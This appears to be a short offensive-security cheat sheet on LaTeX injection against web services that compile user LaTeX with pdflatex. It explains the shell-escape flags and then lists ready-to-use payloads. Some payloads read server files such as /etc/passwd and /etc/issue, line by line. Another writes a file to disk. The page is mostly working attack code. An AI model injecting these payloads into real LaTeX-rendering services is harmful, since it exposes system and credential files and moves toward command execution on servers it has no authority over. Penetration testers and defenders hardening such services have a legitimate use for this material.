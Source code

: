 ## LaTeX Injection

Usually the servers that will find on the internet that **convert LaTeX code to PDF** use **`pdflatex`**.\
This program uses 3 main attributes to (dis)allow command execution:

* **`--no-shell-escape`**: **Disable** the `\write18{command}` construct, even if it is enabled in the texmf.cnf file.
* **`--shell-restricted`**: Same as `--shell-escape`, but **limited** to a 'safe' set of **predefined** \*\*commands (\*\*On Ubuntu 16.04 the list is in `/usr/share/texmf/web2c/texmf.cnf`).
* **`--shell-escape`**: **Enable** the `\write18{command}` construct. The command can be any shell command. This construct is normally disallowed for security reasons.

However, there are other ways to execute commands, so to avoid RCE it's very important to use `--shell-restricted`.

### Read file <a href="#read-file" id="read-file"></a>

You might need to adjust injection with wrappers as \[ or $.

```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

#### Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

### Write file <a href="#write-file" id="write-file"></a>

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```
